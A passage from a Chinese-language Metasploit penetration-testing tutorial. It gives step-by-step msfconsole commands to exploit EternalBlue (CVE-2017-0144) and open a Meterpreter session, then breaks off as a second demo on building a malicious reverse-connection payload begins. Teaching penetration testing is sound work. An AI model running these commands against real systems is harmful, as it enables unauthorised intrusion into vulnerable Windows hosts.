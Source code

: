 5. **运行漏洞模块**：

   - 使用 `exploit` 或 `run` 命令执行漏洞利用。

6. **获取会话并后渗透**：

   - 成功利用漏洞后，获取目标系统的访问权限。
   - 使用后渗透模块进一步操作。

------

## 6. Demo 演示讲解

以下是几个常见的 Metasploit Demo 演示及其详细讲解：

### Demo 1: 利用 SMB 漏洞（EternalBlue）

**目标**：利用 SMB 协议中的 EternalBlue 漏洞（CVE-2017-0144）渗透目标系统。

**步骤**：

1. 加载漏洞模块

   ```
   msfconsole
   use exploit/windows/smb/ms17_010_eternalblue
   ```

2. 设置参数

   ```
   set RHOSTS 192.168.1.100
   set LHOST 192.168.1.50
   ```

3. 运行模块

   ```
   exploit
   ```

4. 获取 Meterpreter 会话

   - 成功后，会进入 Meterpreter 会话。

   - 示例操作：

     ```
     sysinfo          # 查看目标系统信息
     getuid           # 查看当前用户权限
     ```

------

### Demo 2: 创建恶意 Payload 并攻击目标

**目标**：生成恶意文件，并在目标系统中获得反向连接。

**步骤**：
